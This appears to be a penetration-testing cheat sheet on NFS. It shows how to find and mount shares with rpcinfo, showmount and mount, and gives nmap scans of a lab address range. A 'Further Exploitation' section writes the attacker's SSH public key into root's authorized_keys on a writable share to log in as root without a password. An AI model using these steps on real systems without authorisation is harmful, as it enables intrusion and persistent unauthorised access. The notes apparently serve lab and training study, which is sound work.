 ## Quick Intro

- Developed in 1984 by Sun Microsystem and similar to SMB because it allows access to files over a network.
    
- Common ports used by NFS are **port 111 and 2049 tcp/udp**
    
- It is a client/server system that allows users to access files across a network and treat them as if they resided in a local file directory.
    

## Identifying if NFS is in use

```
rpcinfo -p <ip>

# If you get 111 and 2049 listed , shares are enable and we can mount them
```

## Show all mounts

- if nfs is available, use **showmount** to view available mounting points

```
showmount -e $ip
```

## Mount a NFS share

- you can then mount the file system with the **mount** command and interact with remote system
    
- first create the directory for mounting -
    `mkdir /mnt/nfs`

```
mount -t nfs $ip:/share /mnt/nfs
```

## Unmounting the shares

```
umount -f -l /mnt/nfs
# -f – Force unmount (in case of an unreachable NFS system). (Requires kernel 2.1.116 or later.)
# -l – Lazy unmount. Detach the filesystem from the filesystem hierarchy now, and cleanup all references to the filesystem as soon as it is not busy anymore. (Requires kernel 2.4.11 or later.)
```

## Permission Denied ?

[![Logo](https://blog.christophetd.fr/favicon.ico)[Write-up] Vulnix - playing around with NFS - Christophe Tafani-DereeperChristophe Tafani-Dereeper](https://blog.christophetd.fr/write-up-vulnix/)

## Further Exploitation

- **If you can write to the remote hosts, try to put ssh key there** so that we can get remote ssh without password 

```
ssh keygen
# Generating ssh keys

cat ~/.ssh/id_rsa.pub >> /mnt/nfs/root/.ssh/authorized_keys
# Putting it to remote host

ssh root@$ip
# Now can login without password on target
```

## Nmap Scan on RPCbind and NFS

```
nmap -v -p 111 10.11.1.1-254

nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254

nmap -p 111 --script nfs* 10.11.1.72
```